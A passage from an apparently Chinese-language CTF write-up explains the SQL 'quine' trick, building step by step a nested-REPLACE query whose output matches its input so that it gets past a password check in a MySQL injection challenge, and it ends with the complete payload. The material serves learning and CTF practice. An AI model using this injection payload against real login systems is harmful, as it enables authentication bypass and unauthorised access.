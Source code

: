 ```sql
select replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")');
```

![image-20230423152442610](https://s2.loli.net/2023/04/23/GhX91m7y3JwE85Y.png)

输入和输出结果一致，从而可以绕过



这里需要知道一下原理：

[从三道赛题再谈Quine trick](https://www.anquanke.com/post/id/253570#h2-9)

[CTFHub_2021-第五空间智能安全大赛-Web-yet_another_mysql_injection（quine注入）](https://www.cnblogs.com/zhengna/p/15917521.html)

[NSS日刷-[第五空间 2021]yet_another_mysql_injection-Qunie](https://www.cnblogs.com/aninock/p/16467716.html)



看着有点烧脑，其实就是套娃

我们首先尝试一下：

```sql
select REPLACE('.',char(46),'.');
```

![image-20230423153453045](https://s2.loli.net/2023/04/23/rtYn4WiP9T2D7Io.png)

输出是一个小数点 .



我们尝试将 上一段代码中的小数点 **.** 替换为：

```sql
REPLACE(".",char(46),".")   -- 这里使用双引号包裹，防止单双引号重叠
```

完整代码：

```sql
select REPLACE('REPLACE(".",char(46),".")',char(46),'REPLACE(".",char(46),".")');
```

![image-20230423153432347](https://s2.loli.net/2023/04/23/Qsg7HvIrREJfYFN.png)

乍一看好像是一样的，但是单双引号有点区别，我们需要再套`REPLACE`替换一下

```sql
select replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")');
```

![image-20230423155242323](https://s2.loli.net/2023/04/23/yma7of36rFAWenx.png)

是真的麻烦。。

